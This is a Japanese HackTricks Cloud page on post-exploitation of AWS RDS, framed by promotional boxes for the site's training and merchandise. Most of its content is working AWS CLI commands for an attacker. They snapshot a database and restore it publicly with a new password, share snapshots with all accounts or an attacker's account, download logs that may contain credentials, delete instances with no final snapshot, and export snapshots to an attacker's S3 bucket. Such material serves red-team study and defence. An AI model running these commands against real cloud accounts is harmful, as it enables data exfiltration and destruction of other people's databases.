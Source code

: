# AWS - RDS ポストエクスプロイテーション

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

- **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)** に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** をフォローする**
- **HackTricks** と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有する

</details>

## RDS

詳細については、以下をチェックしてください:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

攻撃者が十分な権限を持っている場合、DBのスナップショットを作成し、その後スナップショットからパブリックアクセス可能なDBを作成することで、**DBを公開可能**にすることができます。
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

これらの権限を持つ攻撃者は、**DBのスナップショットを作成**してそれを**公開**にすることができます。その後、そのスナップショットから自分のアカウントでDBを作成することができます。

攻撃者が**`rds:CreateDBSnapshot`を持っていない**場合でも、**他の**作成されたスナップショットを**公開**にすることができます。

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` 権限を持つ攻撃者は、**RDS インスタンスのログファイルの一部をダウンロード**することができます。機密データやアクセス資格情報が誤って記録されている場合、攻撃者はこれらの情報を使用して特権を昇格させたり、不正な操作を行ったりする可能性があります。

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**潜在的影響**: 流出した資格情報を使用して機密情報にアクセスしたり、不正な操作を行う可能性があります。

### `rds:DeleteDBInstance`

これらの権限を持つ攻撃者は、**既存のRDSインスタンスをDoS攻撃**することができます。

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
**潜在的影響**: 既存のRDSインスタンスの削除、およびデータの潜在的な損失。

### `rds:StartExportTask`

{% hint style="info" %}
TODO: テスト
{% endhint %}

この権限を持つ攻撃者は、**RDSインスタンスのスナップショットをS3バケットにエクスポート**できます。攻撃者が宛先S3バケットを制御している場合、エクスポートされたスナップショット内の機密データにアクセスする可能性があります。

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**潜在的影響**: エクスポートされたスナップショット内の機密データへのアクセス。

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、当社の独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) コレクションを発見する
* **💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) をフォローする**
* **HackTricks** および **HackTricks Cloud** の github リポジトリに PR を提出して、あなたのハッキングテクニックを共有する

</details>

